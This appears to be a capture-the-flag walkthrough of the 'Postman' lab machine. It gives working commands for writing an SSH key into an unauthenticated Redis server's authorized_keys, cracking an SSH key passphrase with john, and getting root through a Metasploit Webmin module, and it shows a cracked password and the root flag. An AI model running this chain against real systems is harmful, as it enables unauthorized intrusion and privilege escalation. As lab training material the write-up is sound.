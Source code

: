 ## Postman

### Lab Details 

- Difficulty: Easy
- Type: Redis, Web, SSH, Priv Esc, Linux

#### Tasks
Q1: What version of Redis is running on port 6379?
- run `nmap -sT -T4 -vv -A -p- -oA Postman target_ip`
```
6379/open/tcp//redis//Redis key-value store 4.0.9/
```

Q2: What is the config directory for redis?
- to find the config directory for redis firt need to connect to redis services 
`redis-cli -h target_ip`
- then locate the config directory by running below `config get dir` or `config get *` to get all configuration settings
```
10.10.10.160:6379> config get dir 
1) "dir"
2) "/var/lib/redis" -> this is the config directory 

10.10.10.160:6379> config get * 
...
##return a list of key-value pairs where each key is a configuration parameter and the corresponding value is its current setting.
1) "dbfilename"         #Key: Name of the RDB snapshot file
2) "dump.rdb"           #Value: Default filename
3) "requirepass"        #Key: Password for authentication
4) ""                   #Value: no password set  
5) "dir"                #Key: Directory for persistence files
6) "/var/lib/redis"     #Value: Default storage directory 
...
165) "dir"              #Key:  Working directory where Redis stores
166) "/var/lib/redis"   #Value: The directory where Redis saves its persistent data
...
```

Q3: As which user you can get code execution through Redis?
- since requirepass is no value which means anyone can access/modify data remotely 
- check if we can run whoami on redis remote by running `ACL whoami` however return error
```
10.10.10.160:6379> ACL whoami
(error) ERR unknown command 'ACL'
```
- check remote version
```
10.10.10.160:6379> info server
# Server
redis_version:4.0.9
```
- test if we have write permission over remote redis service 
``` 
10.10.10.160:6379> set test:write "hello world"
OK
```
- in the end i wasnt able to get the name from remote instance so i tried default and then redis and redis is the correct answer i think its might be due to the config location sometimes it can be at /home/redis and /home is where local user directory resides

Q4: What's the full path of an SSH backup key that redis can read?
- in order to read the path we will need to first gain the initial foodhold over the remote target
- we can exploit the lack of write restriction by uploading self generated public key to the remote target 
- below are lins to useful posts on how to perform such attack
  - https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419 - https://secybr.com/posts/redis-pentesting-best-practices/
- gist as per below
```
$: ssh-keygen -t rsa
$: (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
$: cat foo.txt | redis-cli -h 10.10.x.x -x set crackit
$:  redis-cli -h 10.10.x.x
10.10.x.x:6379> config set dir /var/lib/redis/.ssh/
OK
10.10.x.x:6379> config set dbfilename "authorized_keys"
OK
10.10.x.x:6379> save
OK
```
- after uploading the public key to remote we can ssh in using the corresponding private key and user named redis
```
ssh -i id_rsa redis@target_ip
```
- we get a shell as redis
```
redis@Postman:~$ whoami
redis
```
- run linpeas.sh to gain more info on the target, we found `id_rsa.bak` for user Matt
```
╔══════════╣ Backup files (limited 100)
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak 
```
- the last permission bit gives others rx access

Q5: What is the password for the SSH key?
- the private key requires password when `ssh -i id_rsa Matt@target_ip`
- therefore need to crack it before, below is using john as hashcat does not support ssh 
```
$: ssh2john id_rsa > rsa.hash 
$: john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash 
...
computer2008     (id_rsa_matt)

Q6: Which user uses the same password as the one used to decrypt the SSH key?
 - Matt is the user as its owned by Matt

Q7: Submit the flag located in the Matt user's home directory.
- `cat /home/Matt/user.txt`

Q8: Which vulnerable version of Webmin is running on the machine?
- found theres `/usr/share/webmin/` directory on the machine and there is a version file in that directory 
- `cat version` -> 1.910 
```
╔══════════╣ Analyzing Postfix Files (limit 70)
...
drwxr-xr-x 5 root root 12288 Aug 25  2019 /usr/share/webmin/postfix
```


Q9: Which user does the Webmin instance run as?
- based on the output of linpeas.sh webmin is running as root 
```
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════                            
                ╚════════════════════════════════════════════════╝                                            
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
...
root        724  0.0  3.1  90944 28832 ?        Ss   11:51   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
...

Q10: 
- use linux/http/webmin_packageup_rce from msfconsole
- set SSL = True and the rest of the info, username is Matt and password is computer2008
- will get a root shell back 
```
root@Postman:/usr/share/webmin/package-updates/# cat /root/root.txt
cat /root/root.txt
2b45ad724078db87b9cbb053aaa9ada5
```



#### Lesson Learned
- learned how to compromise weakly configured redis server but using readily available info
- use john to crack ssh private key passwords
